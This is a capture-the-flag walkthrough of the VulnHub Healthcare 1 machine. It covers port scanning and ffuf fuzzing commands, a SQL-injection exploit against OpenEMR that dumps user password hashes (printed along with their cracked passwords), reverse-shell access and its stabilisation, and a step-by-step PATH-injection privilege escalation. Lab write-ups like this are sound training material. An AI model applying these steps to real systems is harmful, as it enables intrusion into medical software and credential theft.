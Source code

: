 ## recon
nmap showed port 80 and 21 were open 

![[Pasted image 20230623103636.png]]

let's see what's there on port 80:
we get the version and the server running i.e apache 2.2.17
look for vuln in this version , we also get some disallowed entries in the robots.txt where `/admin` is one of them , title is a bit cheesy 
***
## Port 80
the website looks like this:
![[Pasted image 20230623104412.png]]
there's a timer saying coming soon
and when we put out email into it we get this error when we don't give the right format so there is some kind of front-end verification:
![[Pasted image 20230623105012.png]]
***
### Fuzzing
after bruteforcing with ffuf -> when used the `big.txt` for files of seclist we get:
```
  2   │         "FUZZ": "addon-modules"  
  3   │         "FUZZ": ".htaccess"  
  4   │         "FUZZ": ".htpasswd"  
  5   │         "FUZZ": "css"  
  6   │         "FUZZ": "cgi-bin/"  
  7   │         "FUZZ": "favicon"  
  8   │         "FUZZ": "favicon.ico"  
  9   │         "FUZZ": "fonts"  
 10   │         "FUZZ": "gitweb"  
 11   │         "FUZZ": "images"  
 12   │         "FUZZ": "index"  
 13   │         "FUZZ": "js"  
 14   │         "FUZZ": "phpMyAdmin"  
 15   │         "FUZZ": "robots"  
 16   │         "FUZZ": "robots.txt"  
 17   │         "FUZZ": "server-status"  
 18   │         "FUZZ": "server-info"  
 19   │         "FUZZ": "vendor"
```
most of them which are 403 
so I also try one wordlist for directory also: `directory-list-2.3-big.txt` , a better practice to widen out our surface

```
ffuf -ic -c -u 'http://192.168.29.9/FUZZ' -e / -w /home/vidhyadhar/Desktop/siddh_16_march_2023/siddharth/lord_of_the_strings/seclist/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 100 -fc 403 | tee -a healthcare1.ffuf
```

we  get this list:
```
   * FUZZ:    
   * FUZZ: /  
   * FUZZ: index  
   * FUZZ: images  
   * FUZZ: css  
   * FUZZ: js  
   * FUZZ: vendor  
   * FUZZ: favicon  
   * FUZZ: robots  
   * FUZZ: fonts  
   * FUZZ: gitweb  
   * FUZZ:    
   * FUZZ: /  
   * FUZZ: openemr  
   * FUZZ: openemr/
```

look at this endpoint: `openemr` , we visit it , looks like this , exposing it's version
![[Pasted image 20230623113146.png]]
search for it and we get it is vulnerable to sqli:
![[Pasted image 20230623113319.png]]

we download the exploit and change the url to our endpoint:
we get two users and their hash:
```
admin : 3863efef9ee2bfbc51ecdca359c6302bed1389e8
medical : ab24aed5a7c4ad45615cd7e0da816eea39e4895d
```

hail!!! crackstation :
![[Pasted image 20230623120146.png]]
`ackbar` and `medical`

we go inside the admin panel:
![[Pasted image 20230623120308.png]]
now we need to somehow get this to reverse shell
inside the administration section we find files and inside it config.php and a custom_pdf.php:
![[Pasted image 20230623120459.png]]

and after calling the url:
`http://192.168.29.9/openemr/sites/default/letter_templates/custom_pdf.php`

we get the shell
after doing `whoami` we get we have the shell of apache

we stabilize the shell :
***
step 1:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

step 2:
do `ctrl+z` your main system terminal should have opened and then write this:
```
stty raw -echo; fg
```

then press `enter` two times , your terminal for the machine should be back , also type this to get some env variables like clear in that machine:
```
export TERM=xterm
```
***
and we get the users.txt flag:
![[Pasted image 20230623132303.png]]

## Privelage escalation
the first step is to look for any binary that we can have enough permissions to run as root so that we can escalate privelages
`find / -perm -4000 -ls 2>/dev/null`


![[Pasted image 20230623140024.png]]

looks cheesy right?!!
let's try and run , it says scanning system
it does so much , getting binary , checking network and all , let's get this file to our pc via scp:
```
scp /usr/bin/healthcheck user@ip:/home/user/
```

when we do strings in this binary:
![[Pasted image 20230625222903.png]]

we see that it is using various commands , now look at the name of the binaries , beware devs never give relative path or binary without path , we can use this `PATH injection` attack to  Privilege Escalation:
I'll make use of clear command:
what we'll do is we'll fool the binary to execute the 'clear' command that we will set it up for it and that would be the '/bin/bash' in disguise , and since it hasn't given us the abs path we can define the $PATH variable ourselves and give that location that is writable to us and there we will place our fake clear:
***
step 1:
```shell
# Copy the bash binary to /tmp/clear
cp /bin/bash /tmp/clear
```

step 2:
```shell
# Add /tmp first in path precedence so /tmp/clear resolves first
export PATH=/tmp:$PATH
```
now our path looks like this:
![[Pasted image 20230625223420.png]]
and :
![[Pasted image 20230625223646.png]]


step 3:
```shell
# Run the binary
/usr/bin/healthcheck
```

and we get the shell:
![[Pasted image 20230625223819.png]]

for more practice about this method you can visit the tryhackme's :
https://tryhackme.com/room/linprivesc
and try the PATH challenge
***

### Other writeups
[#]one of the best post-exploit enum:
```
https://benheater.com/vulnhub-healthcare-1/
```

[#] this one's good too:
```
https://blog.ikuamike.io/posts/2021/healthcare1/
```



